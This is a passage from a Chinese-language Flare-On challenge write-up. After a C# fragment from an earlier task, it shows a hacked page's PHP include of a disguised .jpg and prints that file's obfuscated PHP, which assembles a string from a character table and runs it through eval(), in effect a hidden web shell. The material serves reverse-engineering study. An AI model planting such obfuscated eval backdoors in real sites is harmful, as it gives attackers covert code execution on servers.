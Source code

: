 ```

        static void Main(string[] args)
        {
            btnDecode_Click();
        }
    }
}

```

* * *

## 第二题

提示说站点被黑了, 在 **home.html** 源代码中看到这个:

```
<?php include "img/flare-on_png.jpg" ?> 
```

图片中的 PHP 代码:

```
    <?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>

```
